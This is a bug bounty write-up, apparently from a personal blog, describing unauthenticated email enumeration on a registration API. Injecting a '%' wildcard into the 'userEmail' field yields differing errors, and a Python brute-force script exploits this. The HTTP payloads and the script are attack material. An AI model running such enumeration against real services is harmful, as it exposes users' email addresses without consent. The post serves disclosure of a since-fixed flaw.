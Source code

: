 ```yaml
---
layout: post
title: Unauthenticated Email Enumeration via API Fuzzing
date: 2024-02-21 15:08 +0530
categories: [bugbounty, writeup]
tags: [bugbounty,API,FUZZ] 
---
```



## Introduction

This blog post explores a recent finding I discovered in a bug bounty target. I stumbled upon a user enumeration issue that exposes email addresses without proper security measures. This vulnerability allows unauthorized users to enumerate all email addresses without authentication or rate limiting, potentially exposing sensitive information.

## Discovery

While testing the registration process, I encountered a POST request to a API endpoint used for email verification in my burp history tab. The endpoint was checking if the email address I entered during registration already existed or not.So i started 
fuzzing the endpoint `/registration` with fuzzing payloads using intruder, I stumbled upon a 500 error code response when I injected a `%` character into the `userEmail` json parameter. The server returned a 500 Internal Server Error along with a  message.

##### Request

```
POST /registration HTTP/2
Host: domain
Content-Type: application/json;charset=UTF-8

{"userEmail":"%"}

```

##### Response

```
There was an unexpected error (type=Internal Server Error, status=500).</div><div>Unable to find com.correnet.matcha.client.model.application.AccessGroup with id 7052; nested exception is javax.persistence.EntityNotFoundException: Unable to find com.correnet.matcha.client.model.application.AccessGroup with id 7052.

```
By observing this error message, my assumption was that the input I passed is executed in a SQL query in the backend. This query likely performs a select statement on all records from the users table where the email column matches any value containing the `%` character. It's worth noting that `%` is a wildcard character in SQL, indicating any sequence of characters, so logically, it would return all matching entries. The error message returned from the server indicates that there are 7052 entries in the system, providing insight into the number of user accounts present.Based on this assumption, the SQL query executed in the backend might resemble the following, where the % character serves as a wildcard to match any sequence of characters in the email column,

```sql
SELECT * FROM users WHERE email LIKE "{userEmail}"
```
so it will become,

```sql
SELECT * FROM users WHERE email LIKE "%"
```
Further testing this endpoint i figured out the true and false case for the email address existence.

##### False Response Case:
```

HTTP Request Body: {"userEmail":"adamcorta%"}
HTTP Response: "Could not find resource: ApplicationUser identified by adamcorta%"

```
##### True Response Case:
```

HTTP Request: {"userEmail":"adamcorte%"}

HTTP Response: "There was an unexpected error (type=Internal Server Error, status=500).</div><div>Unable to find com.correnet.matcha.client.model.application.AccessGroup with id"

or

HTTP Response: "Anonymous user (not logged in) not authorized for operation: [connect application user to Platform user]"


```


## Exploit

And based on above error messages, I( ChatGPT of course! ) made a wacky Python script to automate the email enumeration:

```python
import requests

def brute_force_attack():
  
    charset = 'abcdefghijklmnopqrstuvwxyz@._'
    initial_string = ''

    last_valid_username = None  
    
    consecutive_errors = 0  
    max_consecutive_errors = 70  
    for initial_char in charset:
        initial_string = initial_char
        while True:
            for char in charset:
                
                payload = initial_string + char + '%'
                response = send_request(payload)

                
                if "500" in response:
                    initial_string += char
                    print(initial_string)
                    break
                elif "403" in response:
                    last_valid_username = payload  
                    print(f"username: {last_valid_username}")
                    initial_string += char
                    consecutive_errors = 0
                    break
                else:
                    
                    consecutive_errors = 0
            else:
                
                consecutive_errors += 1
                if consecutive_errors >= max_consecutive_errors:
                    if last_valid_username is not None:
                        print(f"Last valid username: {last_valid_username}")
                    else:
                        print("No valid username found.")
                    return initial_string
                break  

    else:
        initial_string += charset[0]
    return initial_string



def send_request(payload):
    
    endpoint_url = '{domain}}'  
    url = f"{endpoint_url}/registration"
    headers = {'Content-Type': 'application/json;charset=UTF-8'}
    data = {"userEmail": payload}

    try:
        response = requests.post(url, json=data, headers=headers)
        response.raise_for_status()  
        return response.text
    except requests.exceptions.RequestException as e:
        return str(e)


result = brute_force_attack()
print("The correct username is:", result)
```

![Sample Proof of Concept (PoC)](https://github.com/Jineeshak/jineeshak.github.io/blob/main/assets/img/3.png?raw=true "Username enumeration")

In response to this discovery, the program triaged and fixed the vulnerability by implementing input validation and captcha protection to the registration page.